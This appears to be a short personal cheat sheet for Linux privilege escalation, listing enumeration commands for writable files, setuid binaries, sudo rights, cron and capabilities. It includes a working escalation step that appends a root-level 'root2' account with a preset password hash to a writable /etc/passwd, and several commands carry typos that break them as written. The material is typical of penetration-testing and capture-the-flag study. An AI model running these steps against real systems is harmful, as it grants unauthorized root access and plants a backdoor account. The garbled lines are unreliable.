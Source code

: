 #Linux PrivEsc
## Find interesting files
`find / -writable -type f 2>/dev/null`  #Writable files\
`find / -writable -type d 2>/dev/null` #Writable directories\
`find / -perm -u=s -type f 2>/dev/null` #Setuid executables

## Passwd file writable?
`s -al /var/etc/passwd \`
`lopenssl passwd w00t\`
`echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd\`
`su root2`

## OS information --> kernel exploit?
`hostname\`
`cat /etc/issue\`
`cat /etc/os-release\`
`uname -a`

## Envirionment variables
`env`

## Sudo privileges
`sudo -l`

## Running services
`ps -aux` (evt met watch)

## Cron
`grep "CRON"  /var/log/syslog\`

## Possible overprived services/applications\
`/usr/sbin/getcap -r / 2>/dev/null`


